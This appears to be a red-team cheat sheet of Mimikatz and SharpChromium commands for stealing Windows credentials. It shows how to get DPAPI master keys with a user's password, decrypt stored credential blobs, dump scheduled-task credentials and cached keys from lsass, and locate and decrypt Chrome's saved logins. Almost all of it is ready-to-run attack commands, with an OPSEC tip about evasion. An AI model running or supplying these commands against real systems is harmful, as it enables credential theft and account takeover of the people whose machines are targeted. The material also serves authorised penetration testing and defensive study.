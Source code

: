 #### Get MasterKey with User's Password
```
Invoke-Mimikatz -Command '"dpapi::masterkey /in:C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<USER SID>\<ID> /sid:<USER SID> /password:<PASSWORD> /protected
```

#### Decrypt credential
```
Invoke-Mimikatz -Command '"dpapi::cred /in:C:\Users\<USER>\AppData\Roaming\Microsoft\Credentials\<ID> /masterkey:<MASTERKEY>"'
```

### Scheduled tasks
#### Dump with Mimikatz
- OPSEC: Touches lsass!
```
Invoke-Mimikatz -Command '"dpapi::cred /patch"'
```

#### Check for blobs
```
ls C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials
```

#### Find master encryption key ID
- The ```pbData``` field contains the encrypted data and the ```guidMasterKey``` contains the GUID of the key needed to decrypt it. 
```
Invoke-Mimikatz -Command '"dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\<ID>"'
```

#### Dump cached keys
```
mimikatz !sekurlsa::dpapi
```

#### Decrypt it
```
Invoke-Mimikatz -Command '"mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\<ID> /masterkey:<MASTERKEY>
```

### Chrome
#### List SQLlite database
- A non-null Login Data file is a good indication that credentials are saved in here
```
ls "$env:LOCALAPPDATA\google\chrome\USERDA~1\default\"

ls C:\Users\<USER>\AppData\Local\Google\Chrome\User Data\Default
```

#### Decrypt data
- https://github.com/djhohnstein/SharpChromium
```
.\SharpChromium.exe logins
```
